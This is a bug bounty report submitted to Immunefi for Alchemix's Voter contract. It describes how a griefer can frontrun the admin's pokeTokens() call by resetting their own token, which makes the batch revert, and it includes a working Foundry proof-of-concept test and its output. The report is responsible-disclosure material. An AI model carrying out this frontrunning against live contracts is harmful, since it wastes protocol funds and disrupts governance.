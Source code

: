 
# Malicious users can cause `pokeTokens()` to revert

Submitted on Mon May 20 2024 16:41:29 GMT-0400 (Atlantic Standard Time) by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31514

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The voter admin can poke tokens to ensure that they accrue their FLUX and that their votes are reset. In the case where a token's lock has expired in the VE contract, the token is fully reset via `voter.reset()`. The admin passes in an array of tokens to reset. However, a griefer can cause the entire call to revert by simply frontrunning and resetting their own token.

This will:
- Cost the Alchemix admin wasted gas
- Delay the process to reset gauge votes

## Vulnerability Details
After an epoch ends, the Voter admin can reset tokens by calling `pokeTokens()`.

```
    function pokeTokens(uint256[] memory _tokenIds) external {
        require(msg.sender == admin, "not admin");
        for (uint256 i = 0; i < _tokenIds.length; i++) {
            uint256 _tokenId = _tokenIds[i];
            // If the token has expired, reset it
            if (block.timestamp > IVotingEscrow(veALCX).lockEnd(_tokenId)) {
                reset(_tokenId);
            }
            poke(_tokenId);
        }
    }
```

As seen above, if a token's lock has ended, it also calls `reset()` for the token.

```
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }


        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
```

The `reset()` function can revert due to its modifier `onlyNewEpoch()`:

```
    modifier onlyNewEpoch(uint256 _tokenId) {
        // Ensure new epoch since last vote
        require((block.timestamp / DURATION) * DURATION > lastVoted[_tokenId], "TOKEN_ALREADY_VOTED_THIS_EPOCH");
        _;
    }
```

Therefore, a griefer can vote with multiple tokens and simply frontrun any admin call to `pokeTokens()`. A single token that has already been reset will cause the entire function call to fail. On mainnet, this can be a costly revert due to numerous writes to storage. If the malicious token is near the end of the array, it could waste significant gas.

## Impact Details
- Cost the Alchemix admin wasted gas
- Delay the process to reset gauge votes

## Output from POC
```
[PASS] testGriefPokeTokens() (gas: 7570291)
Logs:
  Beef frontruns pokeTokens() call and resets last token in array (tokenId5).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId5 from array and try again.
  Beef frontruns pokeTokens() call and resets last token in array (tokenId4).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId4 from array and try again.
  Beef frontruns pokeTokens() call and resets last token in array (tokenId3).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId3 from array and try again.
  Admin finally calls pokeTokens() successfully.
```

        
## Proof of concept
## Proof of Concept

```
function testGriefPokeTokens() public {
        // Kick off epoch cycle
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, 3 weeks, false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, 3 weeks, false);
        uint256 tokenId3 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);
        uint256 tokenId4 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);
        uint256 tokenId5 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);

        uint256[] memory tokens = new uint256[](5);
        tokens[0] = tokenId1;
        tokens[1] = tokenId2;
        tokens[2] = tokenId3;
        tokens[3] = tokenId4;
        tokens[4] = tokenId5;

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        // Vote and record used weights
        voter.vote(tokenId1, pools, weights, 0);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.stopPrank();

        hevm.startPrank(beef);
        voter.vote(tokenId3, pools, weights, 0);
        voter.vote(tokenId4, pools, weights, 0);
        voter.vote(tokenId5, pools, weights, 0);
        hevm.stopPrank();

        hevm.startPrank(admin);
        uint256 usedWeight1 = voter.usedWeights(tokenId2);
        uint256 totalWeight1 = voter.totalWeight();

        // Move forward 3 weeks to expire locks
        hevm.warp(newEpoch());
        hevm.warp(newEpoch());
        hevm.warp(newEpoch());
        voter.distribute();

        // Move to when token1 expires
        hevm.warp(block.timestamp + 3 weeks);

        // Mock poking idle tokens to sync voting
        hevm.stopPrank();

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId5).");
        hevm.prank(beef);
        voter.reset(tokenId5);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens);

        console.log("Remove tokenId5 from array and try again.");
        uint256[] memory tokens2 = new uint256[](4);
        tokens2[0] = tokenId1;
        tokens2[1] = tokenId2;
        tokens2[2] = tokenId3;
        tokens2[3] = tokenId4;

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId4).");
        hevm.prank(beef);
        voter.reset(tokenId4);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens2);

        console.log("Remove tokenId4 from array and try again.");
        uint256[] memory tokens3 = new uint256[](3);
        tokens3[0] = tokenId1;
        tokens3[1] = tokenId2;
        tokens3[2] = tokenId3;

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId3).");
        hevm.prank(beef);
        voter.reset(tokenId3);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens3);

        console.log("Remove tokenId3 from array and try again.");
        uint256[] memory tokens4 = new uint256[](2);
        tokens4[0] = tokenId1;
        tokens4[1] = tokenId2;

        console.log("Admin finally calls pokeTokens() successfully.");
        hevm.prank(voter.admin());
        voter.pokeTokens(tokens4);
    }
```